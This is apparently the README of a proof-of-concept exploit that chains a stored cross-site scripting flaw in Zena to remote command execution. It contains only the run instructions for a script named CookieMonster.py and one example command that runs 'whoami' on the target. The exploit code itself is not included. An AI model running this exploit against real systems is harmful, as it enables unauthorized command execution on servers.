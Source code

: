 # Zena Stored XSS to RCE Exploit POC

**Exploit POC for Zena - Stored XSS to RCE**

**To Run:**
- python CookieMonster.py <hostname/ip> <TLS/SSL - True or False> <cmd.exe command>
  - **Example: python3 CookieMonster.py 127.0.0.1 False "/c whoami > c:/out.txt"**
